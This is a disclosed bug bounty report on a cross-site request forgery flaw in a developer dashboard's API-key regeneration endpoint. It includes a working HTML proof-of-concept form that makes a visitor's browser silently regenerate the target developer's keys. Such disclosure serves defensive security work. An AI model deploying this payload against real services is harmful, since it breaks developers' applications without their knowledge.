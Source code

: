 # CSRF in generating developer api_key

## Report Details
- **Report ID**: 593893
- **URL**: https://hackerone.com/reports/593893
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-06-02T05:26:42.271Z
- **Disclosed**: 2019-11-01T01:35:36.535Z

## Reporter
- **Username**: mr_r0w07
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: magic-bbp

## Vulnerability Information
Hi

At https://dashboard.forttmatic.com when developer tries to generate new api_key for his application, a POST request is sent to https://api.forttmatic.com which doesn't have any tokens to guard against CSRF attacks.

###CSRF POC :
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://api.fortmatic.com/v1/dashboard/api_user/keys/regenerate" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&#125;" value="" />
      <input type="submit" value="Generate New Keys" />
    </form>
  </body>
</html>

``` 

On submitting the above request, a new set of keys would be generated which destroys the current api_key set without the knowledge of developer.

## Impact

It doesn't have a great security impact other than that this would make the developer's app unusable because he would have to change the api_keys everywhere on his code to make the application working again.
This could be done any number of times. Everytime the developer has attacker's site opened in his browser keys would be regenerated leading to developer being left frustrated as to why his api_keys keep on changing even when he didn't ask for it and the pain to replace old pair of keys with the new one! :)

## Attachments
No attachments
